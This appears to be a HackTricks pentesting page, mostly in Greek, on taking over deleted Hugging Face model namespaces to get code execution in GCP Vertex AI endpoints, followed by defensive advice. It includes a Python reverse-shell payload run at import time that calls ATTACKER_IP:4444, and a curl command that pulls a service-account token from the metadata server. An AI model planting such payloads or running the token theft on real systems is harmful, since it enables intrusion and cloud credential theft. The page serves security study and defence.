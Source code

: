 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Σενάριο

- Vertex AI Model Garden επιτρέπει την άμεση ανάπτυξη πολλών Hugging Face (HF) μοντέλων.
- HF model identifiers are Author/ModelName. Εάν ένας author/org στο HF διαγραφεί, το ίδιο author name μπορεί να επανα-εγγραφεί από οποιονδήποτε. Οι attackers μπορούν τότε να δημιουργήσουν ένα repo με το ίδιο ModelName στη legacy path.
- Pipelines, SDKs, or cloud catalogs που κάνουν fetch μόνο με το όνομα (no pinning/integrity) θα κατεβάσουν το attacker-controlled repo. Όταν το μοντέλο αναπτυχθεί, loader code από αυτό το repo μπορεί να εκτελεστεί μέσα στο Vertex AI endpoint container, δίνοντας RCE με τα permissions του endpoint.

Two common takeover cases on HF:
- Ownership deletion: Το παλιό path επιστρέφει 404 μέχρι κάποιος να επανα-εγγράψει τον author και να δημοσιεύσει το ίδιο ModelName.
- Ownership transfer: HF issues 307 redirects from old Author/ModelName to the new author. Εάν ο παλιός author αργότερα διαγραφεί και επανα-εγγραφεί από έναν attacker, η αλυσίδα redirect σπάει και το attacker’s repo σερβίρει στη legacy path.

## Εντοπισμός Επαναχρησιμοποιήσιμων Namespaces (HF)

- Old author deleted: η σελίδα για τον author επιστρέφει 404; το model path μπορεί να επιστρέψει 404 μέχρι takeover.
- Transferred models: το παλιό model path εκδίδει 307 στον νέο owner όσο ο παλιός author υπάρχει. Εάν ο παλιός author αργότερα διαγραφεί και επανα-εγγραφεί, η legacy path θα επιλύεται στο attacker’s repo.

Γρήγοροι έλεγχοι με curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Ροή επίθεσης από άκρο σε άκρο κατά του Vertex AI

1) Ανακάλυψε επαναχρησιμοποιήσιμους namespaces μοντέλων που το Model Garden εμφανίζει ως deployable:
- Εντόπισε HF models στο Vertex AI Model Garden που εξακολουθούν να εμφανίζουν “verified deployable”.
- Επαλήθευσε στο HF αν ο αρχικός author έχει διαγραφεί ή αν το model μεταφέρθηκε και ο παλιός author αφαιρέθηκε αργότερα.

2) Επανεγγράψε τον διαγραμμένο author στο HF και αναδημιούργησε το ίδιο ModelName.

3) Δημοσίευσε ένα κακόβουλο repo. Συμπεριέλαβε κώδικα που εκτελείται κατά το model load. Παραδείγματα που συνήθως εκτελούνται κατά το HF model load:
- Side effects στο __init__.py του repo
- Προσαρμοσμένο modeling_*.py ή processing code που αναφέρεται από το config/auto_map
- Διαδρομές κώδικα που απαιτούν trust_remote_code=True σε Transformers pipelines

4) Μια Vertex AI deployment του legacy Author/ModelName τώρα τραβάει το attacker repo. Ο loader εκτελείται μέσα στο Vertex AI endpoint container.

5) Το payload δημιουργεί πρόσβαση από το endpoint περιβάλλον (RCE) με τα permissions του endpoint.

Παράδειγμα αποσπάσματος payload που εκτελείται κατά το import (μόνο για επίδειξη):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Σημειώσεις
- Στην πράξη, οι loaders ποικίλλουν. Πολλές Vertex AI HF integrations κλωνοποιούν και εισάγουν repo modules που αναφέρονται στο config του μοντέλου (π.χ. auto_map), κάτι που μπορεί να προκαλέσει εκτέλεση κώδικα. Κάποιες χρήσεις απαιτούν trust_remote_code=True.
- Το endpoint τυπικά τρέχει σε ένα αφιερωμένο container με περιορισμένο πεδίο, αλλά αποτελεί έγκυρη αρχική εστία για πρόσβαση σε δεδομένα και lateral movement στο GCP.

## Post-Exploitation Tips (Vertex AI Endpoint)

Μόλις code εκτελείται μέσα στο endpoint container, σκεφτείτε:
- Εξερεύνηση των environment variables και του metadata για credentials/tokens
- Πρόσβαση σε attached storage ή σε mounted model artifacts
- Αλληλεπίδραση με Google APIs μέσω της ταυτότητας service account (Document AI, Storage, Pub/Sub, κ.λπ.)
- Persistence στο model artifact σε περίπτωση που η πλατφόρμα re-pulls το repo

Καταγράψτε τα instance metadata αν είναι προσβάσιμα (container dependent):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Οδηγίες άμυνας για χρήστες Vertex AI

- Pin models by commit in HF loaders για να αποτρέψετε τη σιωπηλή αντικατάσταση:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Κατοπτρίστε ελεγμένα HF models σε ένα αξιόπιστο εσωτερικό artifact store/registry και αναπτύξτε από εκεί.
- Σαρώστε συνεχώς codebases και configs για hard-coded Author/ModelName που έχουν διαγραφεί/μεταφερθεί· ενημερώστε σε νέα namespaces ή κλειδώστε σε συγκεκριμένο commit.
- Στο Model Garden, επαληθεύστε την προέλευση του μοντέλου και την ύπαρξη του author πριν την ανάπτυξη.

## Ευριστικές αναγνώρισης (HTTP)

- Deleted author: author page 404; legacy model path 404 μέχρι την ανάληψη.
- Transferred model: legacy path 307 προς νέο author ενώ ο παλιός author υπάρχει· αν ο παλιός author διαγραφεί αργότερα και επανα-καταχωρηθεί, το legacy path εξυπηρετεί περιεχόμενο attacker.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Διασταυρούμενες Αναφορές

- Δείτε τη γενικότερη μεθοδολογία και τις σημειώσεις για την εφοδιαστική αλυσίδα:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Αναφορές

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
